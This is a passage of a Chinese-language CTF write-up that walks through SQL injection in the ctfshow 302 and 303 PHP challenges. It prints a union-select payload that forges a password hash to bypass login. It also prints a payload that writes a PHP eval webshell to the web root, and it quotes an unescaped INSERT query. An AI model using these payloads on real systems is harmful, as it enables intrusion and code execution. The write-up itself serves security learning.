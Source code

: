 也就是比原本加了个sds_decode()，找到fun.php里

```php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
```

数据库里还是`admin/ctfshowwwww`，所以用这个登录是登不进的
想符合比较需要：
传入的userid经过sds_decode后等于`ctfshowwwww`，个人感觉不太可行

### 解法1：

可以看到username只是作为where的条件进行查询，真正进行判断的还是userpwd

那么利用联合查询的特性伪造一个密码出来：

![](https://i.loli.net/2021/10/06/QbZBImkE4wY3v5M.png)

```
userid=-1' union select "d9c77c4e454869d5d8da3b4be79694d3" %23&userpwd=1
```

![](https://i.loli.net/2021/10/06/jasWfrboUZkGtwc.png)

相关原理这里不赘述，自己本地试![](https://i.loli.net/2021/10/06/yiz5XrtLZxg8DQ1.png)

### 解法2：

sql语句依然没有添加过滤，也能正常被执行，那么写马还是可以的

```php
userid=' union select "<?php eval($_GET[1]);" into outfile "/var/www/html/a.php" --+
```



## 303 sql注入

这次seay有审到：dptadd.php，还是sql注入![](https://i.loli.net/2021/10/06/puIAoJWvV164XiZ.png)

```php
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
```

`if(!isset($_SESSION['login']))`得先登录

这里我本来是想像302一样进去的，但是失败了，还给我弹回个东西

![](https://i.loli.net/2021/10/06/8HPCD7xSZgFT6zy.png)

重新审一下源码：checklogin.php

![](https://i.loli.net/2021/10/06/lijGn2ATLOZuhq4.png)
